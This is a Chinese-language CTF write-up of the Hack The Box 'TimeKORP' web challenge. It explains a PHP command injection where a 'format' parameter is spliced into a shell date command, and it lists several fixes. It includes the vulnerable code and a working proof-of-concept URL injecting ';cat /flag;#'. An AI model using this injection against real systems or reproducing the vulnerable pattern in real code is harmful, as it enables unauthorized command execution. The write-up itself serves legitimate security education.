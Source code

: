 ## 題目 - TimeKORP
- EVENT: [CTF Try Out](https://ctf.hackthebox.com/event/1434)
- 種類: web
- 難度: very easy
- 靶機: `94.237.122.36:54811`

## 解題過程概述
起初看是簡單的網站顯示時間日期而已  
就沒有做基礎的 `enumeration` 了  
開 burpsuite 發現每按一個時間按鈕就呼叫 `/?format=%H:%M:%S`  
看一下 code 發現參數 `%H:%M:%S` 直接餵給 `TimeModel.php` 的 `exec`
就開始嘗試 `command injection` 先確認如何繞過程式執行我要的 cmd
就完成


##  Initial Access - Command Injection 

### Vulnerability Explanation

程式碼直接將使用者輸入 ($_GET['format']) 拼接到系統命令中,沒有進行任何驗證或過濾
```php
# TimeController.php
...
$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
$time = new TimeModel($format);
...
```

```php
# TimeModel.php
...
public function __construct($format)
{
    $this->command = "date '+" . $format . "' 2>&1";
}

public function getTime()
{
    # 實際執行 變成 date '+';cat /flag;#' 2>&1
    $time = exec($this->command);
    $res  = isset($time) ? $time : '?';
    return $res;
}
...
```

### Vulnerability Fix
#### 1. **白名單驗證 (最推薦)**
只允許特定的安全字符:

```php
public function __construct($format)
{
    // 只允許日期格式字符
    if (!preg_match('/^[A-Za-z%:\-\s]+$/', $format)) {
        throw new Exception('Invalid format');
    }
    $this->command = "date '+" . $format . "' 2>&1";
}
```

#### 2. **使用 escapeshellarg()**
PHP 提供的函數來轉義參數:

```php
public function __construct($format)
{
    $this->command = "date '+" . escapeshellarg($format) . "' 2>&1";
}
```

#### 3. **避免使用 shell 命令 (最安全)**
改用 PHP 原生函數:

```php
public function __construct($format)
{
    $this->format = $format;
}

public function getTime()
{
    // 使用 PHP 內建函數,避免 shell 命令
    return date($this->format);
}
```

#### 4. **預定義格式選項**
限制使用者只能選擇預定義的格式:

```php
$allowed_formats = [
    'time' => '%H:%M:%S',
    'date' => '%Y-%m-%d',
    'datetime' => '%Y-%m-%d %H:%M:%S'
];

$format_key = $_GET['format'] ?? 'time';
$format = $allowed_formats[$format_key] ?? $allowed_formats['time'];
```

### POC 
```bash
# ';cat /flag;#
http://94.237.122.36:54811/?format='%3bcat%20%2fflag%3b%23

# 取得 flag
<h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{t...5}<span class='text-muted'>.</span></h1>
```


**Note**: 此 writeup 僅用於教育目的,請勿在未經授權的系統上進行測試。
